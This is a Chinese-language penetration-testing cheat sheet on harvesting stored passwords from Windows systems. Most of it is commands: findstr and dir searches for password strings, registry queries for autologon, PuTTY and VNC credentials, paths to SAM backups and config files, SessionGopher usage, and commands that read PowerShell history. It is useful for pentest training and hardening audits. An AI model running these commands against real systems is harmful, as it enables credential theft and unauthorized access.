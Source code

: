 # 针对密码-从文件中发现密码

[****SAM 和SYSTEM 文件位置-及其利用**** ](%E9%92%88%E5%AF%B9%E5%AF%86%E7%A0%81-%E4%BB%8E%E6%96%87%E4%BB%B6%E4%B8%AD%E5%8F%91%E7%8E%B0%E5%AF%86%E7%A0%81%2047c2d8b209c044e9b735a1f70ebd70e9/SAM%20%E5%92%8CSYSTEM%20%E6%96%87%E4%BB%B6%E4%BD%8D%E7%BD%AE-%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8%20f0e81d96f3ba46afab6b3981f780e28d.md)

[****win10/win11 下HiveNightmare（CVE-2021–36934）可以使非管理员得到SAM,SECURITY,SYSTEM文件****](%E9%92%88%E5%AF%B9%E5%AF%86%E7%A0%81-%E4%BB%8E%E6%96%87%E4%BB%B6%E4%B8%AD%E5%8F%91%E7%8E%B0%E5%AF%86%E7%A0%81%2047c2d8b209c044e9b735a1f70ebd70e9/win10%20win11%20%E4%B8%8BHiveNightmare%EF%BC%88CVE-2021%E2%80%9336934%EF%BC%89%E5%8F%AF%E4%BB%A5%E4%BD%BF%E9%9D%9E%E7%AE%A1%E7%90%86%E5%91%98%E5%BE%97%2061e11edfdd214726842d244350543503.md)

## **从文件内容中寻找到关于密码的线索：**

```bash
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

## **搜索具有某个带有密码文件名的文件：**

```bash
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

## **从注册表中寻找密码：**

```bash
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"    在自动登录中寻找
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"    发现putty程序的明文密码
reg query "HKCU\Software\ORL\WinVNC3\Password"    发现VNC程序的明文密码，下面也是
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password  
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## **在unattend.xml 中的密码发现**

```bash
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

## **从IIS Web config 中发现密码**

```bash
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

`C:\inetpub\wwwroot\web.config`****

## **其他文件中发现密码**

```bash
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
```

## 其他会话密码：

‣ **它可以从从WinSCP, PuTTY, SuperPuTTY, FileZilla, 和 Microsoft Remote Desktop 中发现密码**

使用方法：

```bash
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough     **本地使用**
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss  **远程使用,-u,p 是凭据 
Invoke-SessionGopher -AllDomain -o  写入CSV文件中**
```

## **从powershell历史记录中发现密码**

```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```